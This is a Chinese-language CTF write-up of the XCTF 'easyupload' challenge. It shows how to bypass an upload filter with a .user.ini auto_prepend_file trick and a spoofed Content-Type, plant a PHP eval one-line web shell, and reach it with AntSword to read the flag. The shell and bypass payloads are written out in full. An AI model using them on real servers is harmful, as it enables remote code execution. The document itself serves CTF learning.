

# WEB-攻防世界easyupload
- 关键词 文件上传，命令执行

## 题目描述


## 解题思路
根据题目和页面我们可以猜到这应该是一个利用文件上传漏洞,利用一句话木马来获取服务器上保存的flag
 - 附：php一句话木马
```php
<?php @eval($_REQUEST['a']); ?>
# 或者
<?=eval($_REQUEST['a']);?>
```
上传成功的话可以使用蚁剑连接


新建一个txt文件并写入这句话，把后缀名改成jpg并上传。结果提示Your file looks wicked


抓包改后缀，.php1~.php9、.htaccess均被过滤（.htaccess 文件是一个用于配置 Apache Web 服务器的配置文件。它通常位于网站根目录或特定目录中，用来为该目录及其子目录提供特定的配置指令）

此时查看wp，发现是使用user.ini的配置文件的漏洞
详见https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

## payload
1. 新建.user.ini文件，写入以下内容
```
GIF89a
auto_prepend_file=a.jpg
```
2. 上传该文件，burp抓包修改，将`Content-Type: application/octet-stream`修改为
`Content-Type: image/jpg`

修改之后点击发送，返回结果为：


3. 新建a.jpg，写入如下内容
```php
<?=eval($_REQUEST['a']);?>
```


直接上传

显示上传成功

4. 用蚁剑连接

在根目录下找到flag，直接查看即可


